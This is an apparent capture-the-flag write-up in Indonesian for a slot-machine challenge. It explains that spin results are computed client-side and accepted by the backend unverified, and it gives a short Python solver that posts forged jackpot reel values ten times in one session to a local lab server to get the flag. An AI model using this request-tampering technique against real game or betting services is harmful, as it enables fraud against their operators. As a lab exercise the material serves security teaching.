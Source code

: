 # Putar dan Menangkan

1. Spin dilakukan di frontend, lalu hasilnya dikirimkan ke backend.
1. Data yang dikirimkan ke backend dapat dimodifikasi karena tidak ada verifikasi di backend bahwa data dari frontend.
1. Kemudian banyaknya jackpot yang didapat oleh user disimpan dalam sebuah session.
1. Oleh karena itu, kita dapat mengirimkan request pada session yang sama berisikan full diamond sebanyak 10x ke backend untuk mendapatkan flag.

Berikut merupakan solver yang dapat digunakan:
```python
import requests

HOST = "http://localhost:9012"

s = requests.Session()
for i in range(10):
    resp = s.post(f"{HOST}/slot.php", json={"reels": [100, 100, 100]})
    print(resp.content)
```
